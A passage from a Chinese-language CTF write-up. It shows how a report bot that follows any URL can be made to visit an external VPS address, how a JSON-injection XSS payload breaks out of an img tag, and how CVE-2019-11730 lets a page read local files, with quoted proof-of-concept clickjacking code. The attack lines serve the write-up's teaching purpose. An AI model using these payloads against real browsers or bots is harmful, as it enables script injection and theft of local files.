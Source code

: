 ```
```

还有另一个report通过，可以把url发给后台的bot 并且bot会不加任何验证的进行点击操作

比如我们发一个

```javascript
javascript:location="http://139.224.236.99:8787"
```

即可在自己的vps上监听到bot的请求

浏览完整个功能点后 回到第一个功能点可以发现可以进行json注入

![8wF8UA.png](https://s1.ax1x.com/2020/03/18/8wF8UA.png)

那么就意味着我们直接控制回显字段了

```
img style="max-width: 200px; max-height: 200px" src="static/'+kind+'/'+cat+'" />
```

xss poc 如下：

```
","status":"ok","content":["\"/><script>alert(1)</script>"],"poc":"
```

其实这里我也比较好奇后台是怎么去检测这个路径的

```
..可以正常返回 而../xx/..却不行
但是..的逻辑实际上是等于../xx/..的
如果xx的形式可以的话 我们就用了另一种攻击方式 可以在kind处进行xss闭合
emm 对这点同样有思考的师傅欢迎来一起讨论
```

现在我们要做的是结合这个xss页面以及bot的点击将templates/flag.txt的内容带出

这里就用 **CVE-2019-11730** 这个漏洞

[POC及攻击视频](https://github.com/alidnf/CVE-2019-11730)

大概浏览下poc.html 可以得知这个CVE的攻击思路为通过当前location的file协议读取当前目录下的文件

部分代码如下：

```javascript
...
if (location.protocol != "file:"){
    console.log("- Error: File isn't loaded locally!");
    return;
}
...
function exploit(){
    // Use Clickjacking to trick the victim to click name of current file name in the hidden iframe.
    // First, Create a hidden iframe pointing to the parent directory.
    var exploit_iframe = document.createElement("iframe");
    exploit_iframe.src = "./";
    exploit_iframe.className = "exploit_iframe";
    document.body.append(exploit_iframe);
    // Second, Create a fake button and trick the user to click it.
    var fake_button = document.createElement("button");
    fake_button.className = "fake_button";
    fake_button.innerText = "Click Me! I have a gift for you!";
    document.body.append(fake_button);
}
...
```
